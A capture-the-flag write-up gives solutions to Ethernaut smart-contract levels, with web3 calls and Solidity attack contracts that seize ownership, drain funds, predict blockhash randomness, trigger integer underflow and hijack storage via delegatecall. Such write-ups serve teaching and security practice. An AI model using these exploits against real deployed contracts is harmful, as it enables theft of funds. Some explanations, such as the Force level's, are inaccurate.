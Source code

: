 # Ethernaut - Cryptography
Solutions to https://ethernaut.zeppelin.solutions

# Fallback
<pre><code>
await contract.owner()
await contract.getContribution()
await contract.abi
await contract.contribute({value: web3.toWei(0.0001, 'ether')}) //to satisfy require
await contract.sendTransaction({value: web3.toWei(0.001, 'ether')}); //Fallback function
await contract.withdraw() //Take all money
</code></pre>

We call the contribute to send some funds to the function. This validates the require function and the value to the sender’s contributions array.
After we call the fallback function by sending a transaction value higher than 0. Since both conditions on require pass, then ownership of the contract is reassigned. This allows the withdraw function to transfer all the funds to the owner.

# Fallout
<pre><code>
await contract.owner()
await contract.abi
await contract.Fal1out()
await contract.owner()
</code></pre>

The fallout function is not a constructor due to the typo in the function name. This allows anyone to call this function and take ownership of the contract.

#CoinFlip
<pre><code>
pragma solidity ^0.4.18;

contract CoinFlip {
    function flip(bool) public returns (bool){ }
}

contract CoinFlipExploit {
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip cf = CoinFlip(0xcf9584c0e873b0d0f21a67b37f0a9300a9eea152);

  constructor() public {
  }

  function exploitFlip() public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    cf.flip(side);
       
    return true;
  }
}
</code></pre>

We use the above CoinFlipExploit contract to pre find the side. This is done on the same blockhash on this contract and on the CoinFlip contract, so the side value is always	the same in one transaction. The blockhash value does not change until the transaction is completed. This is then done 10 times repeatedly to satisfy this.

#Telephone
<pre><code>
pragma solidity ^0.4.18;

contract Telephone {
    function changeOwner(address _owner) public { }
}

contract TelephoneExploit {
  Telephone t = Telephone(0x6c8e692dc45e65b50bd454b89f6febc569fa0e8e);

  constructor() public {
  }

  function exploit() public returns (bool) {
    t.changeOwner(0xf1a55256baac0eed4781b1750e80df10c17ffa70);
    return true;
  }
}
</code></pre>

We use the following above contract to take ownership of the Telephone contract.

# Token
<pre><code>
await contract.transfer(0xA3e987f45492E2a12a21E45A37c012a6e5E3B01C, 30)
await contract.balanceOf(player)
</code></pre>

The transfer function demonstrates overflow and underflow situations. Since balances is uint we hit an underflow with “balances[msg.sender] -= _value” where it modifies the value to a very large number.

# Delegation
<pre><code>
web3.eth.sendTransaction({from:player, to:contract.address, data:web3.sha3("pwn()").slice(0,10)}, function(error, hash){});
or 
web3.sha3("pwn()").slice(0,10) and send the transaction using metamask
</code></pre>

First we need to sha3 encrypted the pwn() function. This is because we need to call the delegation function function by passing the 4 bytes of the sha3 encrypted function to take take ownership of Delegate and Delegation. The delegatecall overrides the owner storage variable with the value of the Delegate storage variable.

# Force
We have to call the selfdestruct() function to destroy the contract.
